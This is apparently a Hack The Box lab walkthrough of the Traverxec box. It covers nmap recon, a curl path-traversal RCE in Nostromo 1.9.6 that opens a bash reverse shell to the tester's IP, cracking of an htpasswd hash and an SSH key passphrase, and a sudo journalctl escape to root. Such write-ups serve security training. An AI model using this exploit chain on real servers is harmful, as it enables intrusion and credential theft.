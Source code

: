 # 🧠 HTB: Traverxec — Walkthrough

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
**Tags:** `nostromo`, `webshell`, `sudo journalctl`, `ssh key`, `GTFObins`

---

## 📡 Recon

### Full TCP Scan

```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.165
```

### Script & Version Scan

```bash
nmap -p 22,80 -sC -sV -oA scans/nmap-tcpscripts 10.10.10.165
```

- **Ports:** 22 (OpenSSH 7.9p1), 80 (Nostromo 1.9.6)
- **Likely OS:** Debian Buster

---

## 🌐 [Web Enumeration](HTTP)

### Web Content

- Default page for **web designer**
- Server: `nostromo 1.9.6` (from HTTP headers)

### Vulnerability Search

```bash
searchsploit nostromo
```

✅ Metasploit RCE found for Nostromo 1.9.6

---

## 🐚 Shell as www-data

### Manual Exploit via Curl

```bash
curl -s -X POST 'http://10.10.10.165/.%0d./.%0d./.%0d./bin/sh' \
-d '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.6/443 0>&1"'
```

### Listener

```bash
nc -lvnp 443
```

✅ Reverse shell as `www-data`

---

## 👤 Priv Esc: www-data → david

### Found htpasswd file

```bash
cat /var/nostromo/conf/.htpasswd
# david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

### Crack with Hashcat

```bash
hashcat -m 500 hash.txt /usr/share/wordlists/rockyou.txt --username
# Password: Nowonly4me
```

### Found Homedirs Setting

```bash
cat /var/nostromo/conf/nhttpd.conf
# homedirs /home
# homedirs_public public_www
```

Check:

```bash
ls /home/david/public_www/protected-file-area/
```

✅ Found: `backup-ssh-identity-files.tgz`

### Download via HTTP Auth

```bash
wget http://david:Nowonly4me@10.10.10.165/~david/protected-file-area/backup-ssh-identity-files.tgz
tar -xzf backup-ssh-identity-files.tgz
```

Contains: Encrypted SSH key for david

### Crack [SSH](SSH) Key

```bash
/opt/john/run/ssh2john.py id_rsa > id_rsa.john
john id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
# Passphrase: hunter

# Save decrypted key:
openssl rsa -in id_rsa -out id_rsa_david
```

### SSH in as david

```bash
ssh -i id_rsa_david david@10.10.10.165
```

📄 `cat user.txt`

---

## 🔓 Priv Esc: david → root

### Found sudo usage in script

```bash
cat ~/bin/server-stats.sh
# Calls: sudo /usr/bin/journalctl -n5 -unostromo.service
```

### Exploit with GTFObins

- **Shrink terminal window**
- Run:

```bash
sudo /usr/bin/journalctl -n5 -unostromo.service
```

- While in less:
```bash
!/bin/bash
```

✅ Root shell!

📄 `cat /root/root.txt`
